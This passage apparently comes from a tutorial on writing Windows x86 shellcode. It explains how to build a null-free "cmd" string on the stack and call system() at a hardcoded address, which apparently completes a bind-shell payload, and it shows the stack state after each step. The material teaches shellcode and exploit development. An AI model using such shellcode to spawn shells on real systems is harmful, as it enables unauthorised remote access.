 Documentation: <a href="https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/system-wsystem?view=vs-2019">https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/system-wsystem?view=vs-2019</a>

Syntax:
```
system(const char *command)
```

The final system call we need to call is the actual execution of OS commands. It takes one argument which is the a pointer to a command string. If you remember earlier, we had to deal with a filename string needed to be terminated with a null byte. Here we will also do some maneuvering to mitigate null bytes in the code.

```assembly
mov DWORD [esp-0x5], 0x646d6341   ; Store string "Acmd" 5 bytes from top of stack
lea eax, [esp-0x4]                ; Store pointer to the string "cmd\0" in eax
lea esp, [esp-0x4]                ; Manually update esp
push eax                          ; Arg1 (*command) = Pointer to "cmd\0"
mov eax, 0x77c293c7               ; Address to system()
call eax
```

### This is the stack and registers for each operation:

Starting state, where ESP points to the *addr structure from the bind() function.

```
       Addr        Value
       0022FE1C    FFFFFFF4
       0022FE20    00000000
ESP -> 0022FE24    5C110002
       0022FE28    00000000
```

After `mov DWORD [esp-0x5], 0x646d6341`, the string "Acmd" is placed 5 bytes from ESP. Since the string only use 3 bytes of the "row" with only zeros, we have a clean null terminated "cmd" string on the stack.

```
       Addr        Value      Ascii
       0022FE1C    41FFFFF4   "...A"
       0022FE20    00646D63   "cmd\0"
ESP -> 0022FE24    5C110002
       0022FE28    00000000
```

`lea eax, [esp-0x4]` stores a pointer to the "cmd\0" string in EAX.

```
       Addr        Value      Ascii
       0022FE1C    41FFFFF4   "...A"
EAX -> 0022FE20    00646D63   "cmd\0"
ESP -> 0022FE24    5C110002
       0022FE28    00000000
```
